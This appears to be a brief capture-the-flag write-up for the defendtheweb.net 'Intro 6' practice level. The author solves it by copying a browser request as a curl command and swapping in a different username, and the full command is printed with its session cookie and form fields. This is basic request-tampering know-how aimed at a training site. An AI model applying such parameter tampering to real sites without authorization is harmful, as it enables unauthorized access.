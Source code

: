 ### Intro 6
Upon seeing I checked the list for specific user, but couldn't find it. Well, as guessed mostly it was a GET request, All I had to do was
Go into browser, rerun the query and copy it as curl. 

Next was to simply replace the user with the correct username and invoke it.
```
curl 'https://defendtheweb.net/playground/intro6' \
  -H 'authority: defendtheweb.net' \
  -H 'pragma: no-cache' \
  -H 'cache-control: no-cache' \
  -H 'sec-ch-ua: " Not;A Brand";v="99", "Google Chrome";v="91", "Chromium";v="91"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'origin: https://defendtheweb.net' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'dnt: 1' \
  -H 'content-type: multipart/form-data; boundary=----WebKitFormBoundaryhWjPAwhUKtPFNyVk' \
  -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-user: ?1' \
  -H 'sec-fetch-dest: document' \
  -H 'referer: https://defendtheweb.net/playground/intro6' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'cookie: PHPSESSID=uj5qih2hrn2j5m96ujiqg46jpf; cookies_dismissed=1' \
  --data-raw $'------WebKitFormBoundaryhWjPAwhUKtPFNyVk\r\nContent-Disposition: form-data; name="token"\r\n\r\n80f9df69ce3970257cef17cddb6bfc80e857a54c6017a073b6700dcaddc5aac4\r\n------WebKitFormBoundaryhWjPAwhUKtPFNyVk\r\nContent-Disposition: form-data; name="formid"\r\n\r\need6f7ad1da0ca8cfcd1448b741d86c8\r\n------WebKitFormBoundaryhWjPAwhUKtPFNyVk\r\nContent-Disposition: form-data; name="username"\r\n\r\nfried_sushi\r\n------WebKitFormBoundaryhWjPAwhUKtPFNyVk--\r\n' \
  --compressed
```

Running the above query got it all sorted :D
